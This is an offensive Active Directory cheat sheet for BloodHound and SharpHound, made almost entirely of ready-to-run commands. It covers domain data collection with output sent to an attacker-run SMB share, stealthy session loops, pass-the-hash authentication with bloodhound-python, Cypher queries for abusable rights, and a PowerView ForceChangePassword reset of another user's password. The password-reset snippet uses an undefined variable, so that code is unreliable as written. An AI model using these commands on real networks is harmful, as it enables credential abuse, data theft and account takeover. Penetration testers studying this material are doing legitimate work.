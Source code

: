 # BloodHound

#### Data collection

```bash
# Get all
SharpHound.exe -All

# DC Only
SharpHound.exe -DCOnly

# Computer only
SharpHound.exe -ComputerOnly

# Save to smbshare
sudo impacket-smbserver share ./ -smb2support -user zen -password zen
SharpHound.exe --memcache --outputdirectory \\10.10.11.10\share\ --zippassword ZenSharp --outputprefix ZEN --randomfilenames

# LDAP auth
SharpHound.exe -All --ldappassword zenpass --ldapusername zen
```

#### Other usefull flags

| Flag                | Description               |
| ------------------- | ------------------------- |
| `--randomfilenames` | Random files names output |
| `--outputdirectory` | Output directory          |
| `--zipfilename`     | Filename for zip          |
| `--zippassword`     | Password zip              |

#### Session loops

To see where users are connected we can use loops so SharpHound can find active sessions of users.

| Flag             | Description                     |
| ---------------- | ------------------------------- |
| `--loop`         | Loop computer collection        |
| `--loopduration` | Loop duration                   |
| `--loopinterval` | Sleep interval                  |
| `--stealth`      | Only check systems to have data |

```powershell
SharpHound.exe -c Session --loop --loopduration 02:00:00 --loopinterval 00:01:00
```

#### Data collection from Linux

```bash
# Using hash
bloodhound-python -u 'admin' -p zen123 -d zencorp.local -ns 172.16.1.5 -c All

# Using hash
bloodhound-python -u 'admin' --hashes b18733e57ca3786565914d7136e0e79a -d zen.local -ns 172.16.1.5 -c All

# Using kerberos authentication
bloodhound-python -d zencorp.local -c DCOnly -u zen -p zen123 -ns 10.129.204.111 -k 
```

#### Queries

```powershell
# Search user
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"}) RETURN u
MATCH (u:User) WHERE u.name = "JOE@ZENCORP.LOCAL" RETURN u

# Get Group memberships
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(joeGroups) 
RETURN joeGroups

# MemberOf Relationship
MATCH p=((n:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(g:Group)) 
RETURN p

# MemberOf Relationship depth 1..* (1 -any)
MATCH p=((u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf*1..]->(g:Group)) 
RETURN p

# Find path group name Help Desk
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name CONTAINS 'HELPDESK'
RETURN p

# Find path group name Help Desk using =~
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name =~ '(?i)helpdesk.*'
RETURN p

# ShortestPath from node that contains john to any node
MATCH p = shortestPath((n)-[*1..]->(c)) 
WHERE n.name =~ '(?i)john.*' AND NOT c=n 
RETURN p

# Find rights domain user should not have
MATCH p=(g:Group)-[r:Owns|WriteDacl|GenericAll|WriteOwner|ExecuteDCOM|GenericWrite|AllowedToDelegate|ForceChangePassword]->(c:Computer) 
WHERE g.name STARTS WITH "DOMAIN USERS" 
RETURN p

# Find all users with desriptions
MATCH (u:User) 
WHERE u.description IS NOT NULL 
RETURN u.name,u.description

# Find WriteSPN
MATCH p=((n)-[r:WriteSPN]->(m)) RETURN p
```

#### Cheatsheets

[https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12](https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12)[https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

#### ForceChangePassword

```powershell
# Use powerview
Import-Module .\PowerView.ps1

# Save password
$SecPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force

# Create PSCredential object
$Cred = New-Object System.Management.Automation.PSCredential('ZENCORP\john', $SecPassword)

# Change password
Set-DomainUserPassword -Identity steven -AccountPassword $UserPassword -Credential $Cred -Verbose
```
